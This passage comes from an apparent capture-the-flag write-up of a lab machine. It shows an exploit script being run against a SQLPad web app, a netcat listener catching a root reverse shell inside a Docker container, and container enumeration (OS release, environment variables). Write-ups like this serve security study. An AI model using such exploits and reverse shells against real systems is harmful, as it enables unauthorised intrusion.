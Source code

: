 ```console
$ python3 ./exploit.py 'http://sqlpad.sightless.htb/' 10.10.14.21 443
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.32] 50674
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation

Initial foothold is `uid=0` but it appears the be inside a docker container.

Container is a Debian Buster image:

```console
root@c184118df0a6:/# cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

```console
root@c184118df0a6:/# env
HOSTNAME=c184118df0a6
YARN_VERSION=1.22.17
PWD=/
SQLPAD_DB_PATH=/var/lib/sqlpad
NODE_ENV=production
SQLPAD_PORT=3000
HOME=/root
SQLPAD_AUTH_DISABLED_DEFAULT_ROLE=admin
TERM=xterm-256color
SHLVL=3
SQLPAD_AUTH_DISABLED=true
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NODE_VERSION=16.14.0
_=/usr/bin/env
OLDPWD=/var/lib/sqlpad
```
